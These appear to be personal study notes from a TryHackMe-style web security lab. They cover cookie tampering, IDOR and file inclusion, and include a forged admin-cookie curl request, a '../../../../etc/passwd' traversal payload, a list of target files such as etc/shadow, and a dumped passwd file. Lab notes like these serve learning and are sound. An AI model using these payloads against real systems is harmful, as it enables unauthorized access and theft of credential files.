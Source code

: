 
```
>>> curl http://10.10.250.243/cookie-test -H "Cookie: logged_in=true; admin=true"
 THM{COOKIE_TAMPERING}
>>> echo "VEhNe0JBU0U2NF9FTkNPRElOR30" | base64 -d
THM{BASE64_ENCODING}
>>> echo '{"id":1,"admin":true}' | base64
eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==
```


## IDOR (Insecure Direct Object Reference)

IDOR vulnerabilities occurs when the site doesn't verify that the user requesting
the data has the rights to read the data. Usually, IDOR vulnerabilities occurs when:
- base64 encode/decode ids
- md5 hash functions
- swappings ids

Always check network to see if there is database to be found

- Difference between encoded and hashed IDs

[base64encode](https://www.base64encode.org/)
[base64decode](https://www.base64decode.org/)

url: 'https://10-10-125-143.p.thmlabs.com/api/v1/customer?id=1'

## File Inclusion

Types of Files inclusion vulnerabilities:
- Local File Intrusion (LFI)
- Remote File Intrusion (RFI)
- Directory Traversal: `http://webapp.thm/get.php?file=../../../../etc/passwd`, 'boot.ini', 'win.ini', 'etc/shadow', 'proc/version', 'var/mail/root'; see `file_get_contents()`

Vulnerable PHP functions:
- `include`, `require`, `include_once`, `require_once`


```
#### Lab 1

>>> /usr/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 


```
